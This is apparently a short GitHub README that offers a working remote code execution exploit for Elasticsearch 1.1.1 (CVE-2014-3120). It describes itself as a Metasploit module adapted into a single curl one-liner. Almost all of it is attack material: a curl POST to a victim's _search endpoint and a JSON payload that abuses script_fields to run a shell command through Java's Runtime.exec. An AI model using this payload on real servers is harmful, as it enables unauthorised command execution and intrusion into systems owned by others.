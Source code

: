#Exploit for Elastic Search
##Version 1.1.1, 
CVE ID is 2014-3120 https://www.cvedetails.com/cve/CVE-2014-3120/

The vulnerability allows the attacker to execute arbitrary java commands with the privileges of the service. 

Idea is a dirty one liner adapted from the metasploit module, when metasploit isnt available but standard HTTP POST is allowed.

```
curl $VICTIM:PORT/_search?pretty -X POST --data @elastic
```

where a file 'elastic' contains:

```
{
"size":1, 
"query":{
"filtered":{
"query":{
"match_all":{}
}}}, 
"script_fields":
{"msf_result":
{"script":"java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec('whoami').getInputStream())); reader.readLine()"
}}
}
```

